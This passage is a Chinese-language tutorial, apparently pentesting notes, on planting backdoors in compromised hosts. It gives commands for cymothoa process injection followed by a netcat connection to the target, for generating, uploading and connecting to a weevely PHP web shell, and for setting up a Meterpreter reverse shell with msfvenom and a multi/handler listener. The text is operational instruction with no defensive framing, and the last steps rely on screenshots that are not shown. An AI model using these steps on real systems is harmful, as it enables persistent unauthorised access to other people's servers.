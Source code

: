 1：使用-p参数设置目标进程的pid

2：使用-s参数指定ShellCode的编号，查看所有ShellCode的编号使用命令：cymothoa -s

3：使用-y参数指定Payload服务端口号

完整命令示例：cymothoa -p 100 -s 1 -y 4444

注入成功后可以使用如下命令来连接目标主机的后门，等待返回shell

Nc -nvv 目标主机IP 4444

### 2：weevely
用法如下：

1>：生成后门

命令：weevely generate password/存放路径/try.php

生成一个名为try.php的后门，密码为password

2>：上传后门至web根目录下/var/www/html/（上传命令在之前的文件命令讲过，不再赘述）

3>：连接后门

命令：weevely 目标主机IP/shell所在目录/1.php password（密码）

weevely还可以生成图片后门。同时weevely还有多个模块使用，在连接上后门之后按两次Tab键，可以查看可利用的模块

### 3：meterpreter后门
用法如下：

1>：使用使用msfvenom创建shell，shell的类型可以自己选自，可以为php文件，exe文件等等

注：php文件可以放在web根目录下，方便直接启动

2>： 上传shell到目标服务器（上传命令在之前的文件命令讲过，不再赘述）

3>：在msf下设置监听模块，开始监听，设置方法为：

①：use exploit/multi//handler

②：set payload （payload可以自行选择）

③：访问或运行shell

④：获得目标主机反弹的shell，连接建立

这里以一个exe文件为例，大家可以尝试其他web文件

1>：创建shell

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595418331390-8f15e69e-d099-4a7f-ac4b-2cc216e7dd64.png)

2>：上传shell

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595418334656-ec607796-9a81-4024-900a-776a2e0bbc8a.png)

3>：设置监听模块，开始监听

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595418337797-5087cead-8008-460c-8fb2-8f7333a67fcd.png)

